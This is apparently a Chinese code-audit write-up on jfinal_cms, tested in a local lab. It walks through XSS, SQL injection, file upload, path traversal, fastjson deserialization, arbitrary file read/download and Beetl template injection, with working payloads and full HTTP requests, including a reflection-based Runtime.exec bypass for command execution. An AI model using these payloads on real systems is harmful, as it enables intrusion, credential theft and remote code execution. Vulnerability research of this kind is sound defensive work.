# JAVA代码审计-jfinal-先知社区

> **来源**: https://xz.aliyun.com/news/16406  
> **文章ID**: 16406

---

# 一、jfinal cms 简介

jfinal cms是一个java开发的功能强大的信息咨询网站，采用了简洁强大的JFinal作为web框架，模板引擎用的是beetl，数据库用mysql，前端bootstrap框架。支持oauth2认证、帐号注册、密码加密、评论及回复，消息提示，网站访问量统计，文章评论数和浏览量统计，回复管理，支持权限管理。后台模块包含：栏目管理，栏目公告，栏目滚动图片，文章管理，回复管理，意见反馈，我的相册，相册管理，图片管理，专辑管理、视频管理、缓存更新，友情链接，访问统计，联系人管理，模板管理，组织机构管理，用户管理，角色管理，菜单管理，数据字典管理。

# 二、jfinal cms 环境搭建

源码下载地址 <https://github.com/jflyfox/jfinal_cms>  
idea 2022  
jdk1.8.0\_112  
apache-tomcat-9.0.68

用idea 打开项目后 自动下载依赖包 设置tomcat







修改src/main/webapp/static/component/filemanager/scripts/filemanager.config.js  
端口记得加上 不然可能后台调用编辑器 有可能不现实。  
"fileRoot": "/jfinal\_cms/",  
"baseUrl": "<http://127.0.0.1:8081/jfinal_cms/>",


新建 数据库 jflyfox\_cms 导入 SQL文件



修改数据库信息

```
db_type=mysql
mysql.jdbcUrl =jdbc:mysql://127.0.0.1:3306/jflyfox_cms?characterEncoding=UTF-8&zeroDateTimeBehavior=convertToNull&allowPublicKeyRetrieval=true&serverTimezone=UTC&useSSL=false
mysql.user = root
mysql.password = root
mysql.driverClass = com.mysql.cj.jdbc.Driver
```

设置redis src/main/resources/conf/cache.properties

```
###################\u5e8f\u5217\u5316\u5de5\u5177 java,fst
CACHE.SERIALIZER.DEFAULT=java
###################\u7f13\u5b58\u5de5\u5177 RedisCache,MemoryCache,MemorySerializeCache
CACHE.NAME=MemorySerializeCache
###################redis
redis.host=127.0.0.1
redis.port=6379
redis.maxIdel=300
redis.maxWait=300000
redis.poolTimeWait=300000
redis.password=
```



phpstudy 设置redis



点击运行tomcat 访问 <http://localhost:8081/jfinal_cms/home>


账号和密码  
管理员账号和密码 admin admin123 普通用户 test 123456  
<http://localhost:8081/jfinal_cms/admin> 后台



# 三、代码审计

## 1 xss漏洞

该程序默认是使用 beetl模板引入 默认不会过滤xss

```
<dependency>
   <groupId>com.ibeetl</groupId>
   <artifactId>beetl</artifactId>
   <version>${beetl.version}</version>
</dependency>
修改名称 输入 
m<svg/onload=alert(1)>
```



调试跟踪分析该漏洞  
src/main/java/com/jflyfox/modules/front/controller/PersonController.java

```
public void save() {
        JSONObject json = new JSONObject();
        json.put("status", 2);// 失败

        SysUser user = (SysUser) getSessionUser();
        int userid = user.getInt("userid");
        SysUser model = getModel(SysUser.class);

        if (userid != model.getInt("userid")) {
            json.put("msg", "提交数据错误！");
            renderJson(json.toJSONString());
            return;
        }
```

从save提交这里下一个断点 调试  
  
getModel 里面



request里存在post信息



```
search_header=
model.userid=3
model.realname=m<svg/onload=alert(1)>
old_password=123456
new_password=
new_password2=
model.email=moon@moonsec.com
model.tel=
model.title_url=
model.remark=
```

可以看到并没有看到任何过滤。  
跟踪model.update()


对提交的内容进行进行更新 使用预编译处理

```
protected int update(Config config, Connection conn, String sql, Object... paras) throws SQLException {
        PreparedStatement pst = conn.prepareStatement(sql);
        config.dialect.fillStatement(pst, paras);
        int result = pst.executeUpdate();
        DbKit.close(pst);
        return result;
    }
```



返回结果到数据查询重新赋值到session中



查看模板 src/main/webapp/template/bbs/includes/userinfo.html

```
<div class="col-md-9">
                        <strong>${user.realname!''}</strong>
                        <p style="word-break: break-all;word-wrap: break-word;">${user.remark!'这个家伙太懒了，暂无说明'}</p>
                  </div>
                 </div>
```

${user.realname!''} 直接输出 并没有任何过滤。



## 2、SQL注入漏洞

漏洞代码  
src/main/java/com/jflyfox/modules/admin/article/ArticleController.java

```
public void list() {
        TbArticle model = getModelByAttr(TbArticle.class);

        SQLUtils sql = new SQLUtils(" from tb_article t " //
                + " left join tb_folder f on f.id = t.folder_id " //
                + " where 1 = 1 ");
        if (model.getAttrValues().length != 0) {
            sql.setAlias("t");
            sql.whereLike("title", model.getStr("title"));
            sql.whereEquals("folder_id", model.getInt("folder_id"));
            sql.whereEquals("status", model.getInt("status"));
        }
        // 站点设置
        int siteId = getSessionUser().getBackSiteId();
        sql.append(" and site_id = " + siteId);

        // 排序
        String orderBy = getBaseForm().getOrderBy();
        if (StrUtils.isEmpty(orderBy)) {
            sql.append(" order by t.folder_id,t.sort,t.create_time desc ");
        } else {
            sql.append(" order by t.").append(orderBy);
        }

String orderBy = getBaseForm().getOrderBy(); 是获取表单提交信息
    public BaseForm getBaseForm() {
        BaseForm form = super.getAttr("form");
        return form == null ? new BaseForm() : form;
    }
```

创建表单信息  
表单类

```
src/main/java/com/jflyfox/jfinal/base/BaseForm.java
public class BaseForm {

    private Paginator paginator;
    private String orderColumn;
    private String orderAsc;
    private boolean showCondition;
String orderBy = getBaseForm().getOrderBy(); 获取设置内容
public String getOrderBy() {
        if (StrUtils.isEmpty(getOrderColumn())) {
            return "";
        }
        return " " + getOrderColumn() + " " + getOrderAsc() + " ";
    }

    public String getOrderColumn() {
        return orderColumn;
    }

    public void setOrderColumn(String orderColumn) {
        this.orderColumn = orderColumn;
    }

    public String getOrderAsc() {
        return orderAsc;
    }
```





最终到 db.query函数查询



使用pst.executeQuery执行语句



漏洞验证

```
POST /jfinal_cms/admin/article/list HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 187
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/jfinal_cms/admin/article/list
Cookie: JSESSIONID=9840D3331AC6D2F7D20C933EDA0019E3; Hm_lvt_42e5492fd27f48fc8becc94219516005=1678517471; _ga_WNLDH1S58P=GS1.1.1678517472.1.0.1678517484.0.0.0; _ga=GA1.1.1743648385.1678517472; JSESSIONID=562F0AE21BC68607AD6126E8AA34A181; __bid_n=1876a8763dc4f81b144207; Hm_lvt_1040d081eea13b44d84a4af639640d51=1681119471; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1681218292; FPTOKEN=fqoa4yrp+3vQH1uCqgrxKfxDwT1VSVo9qf0vZYks/jAbimbZ/EYP1XqwH4zqW/in3QKiAVrolJvlkBwPJWz+wW+tAykYdxr3pLAHW7kQ/vMJXYpv066TzcDjiTIIC+xEpwCh6ip9yn3JFa08l/gyRoHk3IpwVKKtkM4+KcHT05JKRMaZQtS69O4GnmI4Je9/jy7nlxv0MGec2oJd3Is8Gz58XQ9bOkX1OPKfr6oAfOtvom/RvkyqH3W6FJUdjx11RV4S16VaaE5nHkqQwQ7iSROpnduKtthfmV2u5mwLcdRqb7OluPT9FHXDfRXXfYeTJxL49r3O8F6ONeNMF34jWVwnR3N2KhJYvYsEzCnbZyE0wPdwEOpI4d07yqKF6jQKN0HesvwTKDLa1rUmu3Q4iQ==|THzAa+GHoQO9etvj1QyeF1WBKyWoxjd7m8RnifJgrRM=|10|6490fbbe388be28313c4abd3696bcc8a; session_user=wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

form.orderColumn=%2b+0 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))%23&form.orderAsc=&attr.folder_id=256&attr.title=&attr.status=1&totalRecords=1&pageNo=1&pageSize=20&length=10
```

所有调用 getBaseForm().getOrderBy();均存在注入





## 3、任意文件上传漏洞

在网站后台 访问模板管理 选择文件上传 图片文件 上传后 使用burpsuite抓包改包



调试跟踪  
com/jflyfox/modules/filemanager/FileManagerController.java  
进入 fm.add


创建缓存目录



创建文件 可以看到jsp文件并没有任何过滤。


renameto 把缓存文件移动到新文件内



在查看tomcat目录



可以看到cmd.jsp已经上传到tomcat中。但是访问会失败。



访问失败的原因是 在这个程序中 web.xml

```
<display-name>jflyfox</display-name>

    <welcome-file-list>
        <welcome-file>login.jsp</welcome-file>
    </welcome-file-list>

    <filter>
        <filter-name>jfinal</filter-name>
        <filter-class>com.jfinal.core.JFinalFilter</filter-class>
        <init-param>
            <param-name>configClass</param-name>
            <param-value>com.jflyfox.component.config.BaseConfig</param-value>
        </init-param>
    </filter>
```

进入JFinalFilter

```
if (isHandled[0] == false) {
            // 默认拒绝直接访问 jsp 文件，加固 tomcat、jetty 安全性
            if (constants.getDenyAccessJsp() && isJsp(target)) {
                com.jfinal.kit.HandlerKit.renderError404(request, response, isHandled);
                return ;
            }
```

跟踪 isJsp

```
boolean isJsp(String t) {
        char c;
        int end = t.length() - 1;

        if ( (end > 3) && ((c = t.charAt(end)) == 'x' || c == 'X') ) {
            end--;
        }

        if ( (end > 2) && ((c = t.charAt(end)) == 'p' || c == 'P') ) {
            end--;
            if ( (end > 1) && ((c = t.charAt(end)) == 's' || c == 'S') ) {
                end--;
                if ( (end > 0) && ((c = t.charAt(end)) == 'j' || c == 'J') ) {
                    end--;
                    if ( (end > -1) && ((c = t.charAt(end)) == '.') ) {
                        return true;
                    }
                }
            }
        }
```

如果是jsp和jspx都返回404 页面



## 4、 目录穿越漏洞

在上传漏洞哪里发现一个可控变量

```
try {
                        currentPath = params.get("currentpath");
                        respPath = currentPath;
                        currentPath = new String(currentPath.getBytes("ISO8859-1"), "UTF-8"); // 中文转码
                        currentPath = getFilePath(currentPath);
                    } catch (UnsupportedEncodingException e) {
                        e.printStackTrace();
                    }
```

在上传文件的时候 存在目录穿越漏洞。



## 5、 fastjson 前台反序列化漏洞

在pomx.xml发现 fastjson 版本是

```
<fastjson.version>1.2.62</fastjson.version>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>
```

搜索项目 JSON.parse





先找前台的

```
src/main/java/com/jflyfox/api/form/ApiForm.java
    private JSONObject getParams() {
        JSONObject json = null;
        try {
            String params = "";
            params = this.p;
            boolean flag = ConfigCache.getValueToBoolean("API.PARAM.ENCRYPT");
            if (flag) {
                params = ApiUtils.decode(params);
            }

            json = JSON.parseObject(params);
        } catch (Exception e) {
            log.error("apiform json parse fail:" + p);
            return new JSONObject();
        }
```

回溯定位调用点



查看ApiForm被 ApiController 调用



查看api 文档刚好有 验证登录  
/api/action/login?version=1.0.1&apiNo=1000000&time=20170314160401&p={username:"admin",password:"123"}  
把p=后面的换成  
{"@type":"java.net.Inet4Address","val":"xxx.cnkfv6.dnslog.cn"}



漏洞验证

```
POST /jfinal_cms/api/action/login?version=1.0.1&apiNo=1000000&time=20170314160401 HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=E75DFFA0E71ED1AFDD083FD433B2F909; Hm_lvt_42e5492fd27f48fc8becc94219516005=1678517471; _ga_WNLDH1S58P=GS1.1.1678517472.1.0.1678517484.0.0.0; _ga=GA1.1.1743648385.1678517472; JSESSIONID=562F0AE21BC68607AD6126E8AA34A181; __bid_n=1876a8763dc4f81b144207; Hm_lvt_1040d081eea13b44d84a4af639640d51=1681119471; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1681234539; FPTOKEN=CBYwY1vqboLVYjyDBqLlG6mLeS2dp0pfN+q78Dahs8zM1hQU2X8EUH0vILRgbn5C5a2G9rJOFQnpwtT+WKRF1ZweRsDFtkEc+i5KZI9DyVZpwV2Elnfrlh3ALJloXfEVtPtpJM6hhuzHlK4NY9J+jsZrMot2o5vOc6dSiKPacVyNFzIz+vvto3NgvXd/dtOXEr7cgjeul0qJM02VGtpmVtckCuIdB3Rmz/s2cj84LBRhLpP4WkiFTrdaE23Grdu84DwcziDuOWk+4iDehqlRZZQYYPghRzuGCxPeO/19d34T35r/Cok028cVe4sKLxtGvw/oUdzPKCzFABTtTk4HBt/QRviZS45E+TKD8DUgAYOd12SezamFFBLh6tW1kPshshu5hqwDFz5ZuyKakyt61A==|3uAMcHU7rpdn+Lq3u6Oy9wzSKQK2ztvNVV5V2pM18R4=|10|06b25955e8fbbbd80dff787def184fbd; session_user=wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
```

p={"@type":"java.net.Inet4Address","val":"xxx.qjfws9.dnslog.cn"}  
dnslog返回值



## 6、 fastjson 后台反序列化漏洞

漏洞代码 src/main/java/com/baidu/ueditor/ConfigManager.java

```
private void initEnv() throws FileNotFoundException, IOException {

        File file = new File(this.originalPath);

        if (!file.isAbsolute()) {
            file = new File(file.getAbsolutePath());
        }

        this.parentPath = file.getParent();

        String configContent = this.readFile(this.getConfigPath());

        try {
            JSONObject jsonConfig = JSONObject.parseObject(configContent);
            this.jsonConfig = jsonConfig;
        } catch (Exception e) {
            this.jsonConfig = null;
        }

    }
```

JSONObject 是继承 所以也是存在 JSON

```
public class JSONObject extends JSON implements Map<String, Object>, Cloneable, Serializable, InvocationHandler {
    private static final long serialVersionUID = 1L;
    private static final int DEFAULT_INITIAL_CAPACITY = 16;
    private final Map<String, Object> map;

    public JSONObject() {
        this(16, false);
    }
```

src/main/java/com/jflyfox/component/controller/Ueditor.java


访问 跟进 ActionEnter



调用ConfigManager



继续跟进 this.iniEnv 调用到 JSONObject.parseObject



传入的json文件是通过读取文件config.json  
src\main\java\com\baidu\ueditor\ConfigManager.java  
private static final String configFileName = "config.json";



读取文件

```
private String getConfigPath() {
        return this.parentPath + File.separator //
                + "WEB-INF" + File.separator + "classes" + File.separator + ConfigManager.configFileName;
    }
```

登录后台  
上传 替换



config.json  
{"@type":"java.net.Inet4Address","val":".dnslog.cn"}



访问 <http://localhost:8081/jfinal_cms/ueditor> 触发



dnslog返回信息



## 7、 任意文件读取漏洞

漏洞代码  
src/main/java/com/jflyfox/modules/filemanager/FileManager.java



```
public JSONObject editFile() {
        JSONObject array = new JSONObject();

        // 读取文件信息
        try {
            String content = FileManagerUtils.readString(getRealFilePath());

            content = FileManagerUtils.encodeContent(content);

            array.put("Path", this.get.get("path"));
            array.put("Content", content);
            array.put("Error", "");
            array.put("Code", 0);
```

跟进 FileManagerUtils.readString



读取文件配置文件 /web-inf/classes/conf/db.properties

```
GET /jfinal_cms/admin/filemanager?mode=editfile&path=/web-inf/classes/conf/db.properties&config=filemanager.config.js&time=855 HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://localhost:8081/jfinal_cms/admin/filemanager/list
Cookie: JSESSIONID=09A7ABEF006CACF62B15C3D8761B82C4; Hm_lvt_1040d081eea13b44d84a4af639640d51=1735440936; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1735457812; HMACCOUNT=66F24227D241D541; session_user=wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c=
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
```


## 8、 任意文件下载漏洞

这个漏洞跟任意文件读取漏洞类似 也是对传入的路径没有进行过滤  
漏洞代码

```
src/main/java/com/jflyfox/modules/filemanager/FileManagerController.java
        } else if (mode.equals("download")) {
                        if (needPath) {
                            fm.download(getResponse());
}
```

调用downlowd

```
public void download(HttpServletResponse resp) {
        File file = new File(getRealFilePath());
        if (this.get.get("path") != null && file.exists()) {
            resp.setHeader("Content-type", "application/force-download");
            resp.setHeader("Content-Disposition", "inline;filename=\"" + fileRoot + this.get.get("path") + "\"");
            resp.setHeader("Content-Transfer-Encoding", "Binary");
            resp.setHeader("Content-length", "" + file.length());
            resp.setHeader("Content-Type", "application/octet-stream");
            resp.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
            readFile(resp, file);
        } else {
            this.error(sprintf(lang("FILE_DOES_NOT_EXIST"), this.get.get("path")));
        }
    }
```



设置下载文件接着调用 readFile(resp, file); 读取文件



读取文件写入文件下载。


## 9、 SSTI模板注入漏洞

在 jfinalcms 模板使用的是 beetl  
在后台提供修改模块的功能



这个是beetl3 使用java代码的说明<https://www.kancloud.cn/xiandafu/beetl3_guide/2138960>



可以使用${@类.方法}可以通过这种方法在类中使用java代码  
而且 java.lang.Runtime,和 java.lang.Process 不能在能引擎中使用  
本地调试

```
package org.example;

import org.beetl.core.Configuration;
import org.beetl.core.GroupTemplate;
import org.beetl.core.Template;
import org.beetl.core.resource.StringTemplateResourceLoader;

import java.io.IOException;

public class Main {
    public static void main(String[] args) throws IOException {
        StringTemplateResourceLoader resourceLoader = new StringTemplateResourceLoader();
        Configuration cfg = Configuration.defaultConfiguration();
        GroupTemplate gt = new GroupTemplate(resourceLoader, cfg);
        //获取模板
        Template t = gt.getTemplate("hello,${@Runtime.getRuntime().exec(\"calc\")}");
        t.binding("name", "beetl");
        //渲染结果
        String str = t.render();
        System.out.println(str);
    }
}
```

判断关键词 直接调用肯定是不行的了。

```
} else {
            String name = c.getName();
            String className = null;
            String pkgName = null;
            int i = name.lastIndexOf(46);
            if (i == -1) {
                return true;
            } else {
                pkgName = name.substring(0, i);
                className = name.substring(i + 1);
                return !pkgName.startsWith("java.lang") || !className.equals("Runtime") && !className.equals("Process") && !className.equals("ProcessBuilder") && !className.equals("System");
            }
        }
```

可以采用反射调用

```
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception {
       Runtime.getRuntime().exec("calc");

        Class<?> aClass = Class.forName("java.lang.Runtime");
        Method exec = aClass.getMethod("exec", String.class);
        Method getRuntime = aClass.getMethod("getRuntime", null);
        Object getInvoke = getRuntime.invoke(null, null);
        exec.invoke(getInvoke,"calc");

        java.lang.Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc");
    }
}
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

在后台模板中添加这段代码就可以顺利执行命令  
调用计算器成功




